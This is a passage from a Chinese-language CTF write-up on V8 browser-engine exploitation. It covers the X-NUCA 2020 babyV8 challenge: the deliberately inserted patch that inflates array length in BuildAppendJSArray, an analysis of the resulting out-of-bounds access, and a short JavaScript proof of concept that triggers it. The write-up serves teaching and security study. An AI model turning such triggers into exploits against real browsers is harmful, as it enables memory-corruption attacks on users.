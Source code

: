 至此题目已经完成了，通过这道入门题目了解了 V8 的调试方式、对象结构与基本利用思路。

---

## 例题 0x01：X-NUCA 2020 - babyV8

这里看第二道例题，虽然同样是直接的 OOB 类型漏洞，但是这题开启了指针压缩，可以举一反三尝试一下刚刚学到的利用思路：

```bash
git checkout 8.6.358
gclient sync -v -D
git apply - # 从标准输入读取 diff
diff --git a/src/codegen/code-stub-assembler.cc b/src/codegen/code-stub-assembler.cc
index 16fd384..8bf435a 100644
--- a/src/codegen/code-stub-assembler.cc
+++ b/src/codegen/code-stub-assembler.cc
@@ -2888,7 +2888,7 @@ TNode<Smi> CodeStubAssembler::BuildAppendJSArray(ElementsKind kind,
       [&](TNode<Object> arg) {
         TryStoreArrayElement(kind, &pre_bailout, elements, var_length.value(),
                              arg);
-        Increment(&var_length);
+        Increment(&var_length, 3);
       },
       first);
   {
```

### 漏洞分析

分析题目 patch 的函数可以发现：

1. `BuildAppendJSArray` 函数先获取了原数组的 length 和 elements；
2. 判断原数组 elements（即 FixedArray）的容量，若不足则调整容量；
3. 将参数用 ForEach 循环依次存入新的 elements 中；
4. **原先会将 `var_length`，即 index 递增，经过 patch 过后会直接增加 3；**
5. 结束循环后设置 `array.length` 并返回。

其中「增加容量」和「递增 index 并最终设置 `array.length`」二者的操作是通过不同的方法计算出来的，而题目中 patch 了后者的计算逻辑，使得最终的 `array.length` 可以超过调整出来 elements 的容量，就直接导致了 OOB。

### POC

来到具体利用，还需要明确如何触发漏洞：

> [!Question] 
> `BuildAppendJSArray` 函数的参数应该是多大的数组才能导致 OOB？
>
> - 首先跟踪到 `PossiblyGrowElementsCapacity` 函数，找到其中调用的 `CalculateNewElementsCapacity`，定位到返回长度的计算方式为：$1.5 \times arg + Padding$
> - 经过测试，Double 类型 Array 的 Padding 值为 0x10

其次就是怎么调用漏洞函数，同样是找交叉引用发现 ArrayPrototypePush 中存在相关调用，故可以写出如下 POC：

```javascript
let victim = [1.1];
victim.push(1.1, 2.2, 3.3, 4.4, 5.5, 6.6, 7.7, 8.8, 9.9, 10.1, 11.11, 12.12);
console.log(victim.length);

%DebugPrint(victim);
%SystemBreak();
```
